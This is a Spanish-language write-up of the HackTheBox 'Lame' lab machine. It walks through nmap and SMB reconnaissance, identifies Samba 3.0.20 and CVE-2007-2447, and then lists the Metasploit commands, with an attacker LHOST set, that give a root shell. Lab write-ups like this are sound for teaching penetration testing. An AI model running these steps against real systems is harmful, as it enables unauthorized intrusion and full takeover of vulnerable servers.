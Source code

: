 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 14/03/2017'
---
```


# Lame

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.3
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 111453.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.3
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1223).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **21 (FTP)**: Protocolo de transferencia de archivos, puede permitir el acceso anónimo o credenciales débiles.
* **22 (SSH)**: Servicio de acceso remoto seguro, posible vector de ataque si se detectan credenciales débiles o exploits disponibles.
* **139, 445 (SMB)**: Protocolos de compartición de archivos en redes Windows, potencialmente expuestos a vulnerabilidades como SMB Relay o EternalBlue.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,139,445 -v 10.10.10.3
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 21 con el usuario Anonymous.

```
ftp 10.10.10.3
```

No contiene nada.

<figure><img src="../../.gitbook/assets/image (1225).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.3
```

<figure><img src="../../.gitbook/assets/image (1226).png" alt=""><figcaption></figcaption></figure>

Vemos si es explotable a algún CVE.

```bash
nmap -p 445 --script smb-os-discovery,smb-protocols,smb2-capabilities 10.10.10.3
```

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

Dado que el sistema usa **Samba 3.0.20**, hay una vulnerabilidad conocida que permite **ejecución remota de código (RCE).**

**CVE-2007-2447 – Samba "username map script" Command Injection:** Esta vulnerabilidad permite ejecutar comandos arbitrarios en el servidor Samba si la opción **"username map script"** está habilitada en `smb.conf`.

### 🚀 **EXPLOTACIÓN**

Abrimos Metasploit para explotar esta vulnerabilidad.

```bash
search Samba 3.0.20
use 0
show options
set RHOSTS 10.10.10.3
set RPORT 445
set LHOST 10.10.14.7
run
```

<figure><img src="../../.gitbook/assets/image (1230).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (1231).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1228).png" alt=""><figcaption></figcaption></figure>
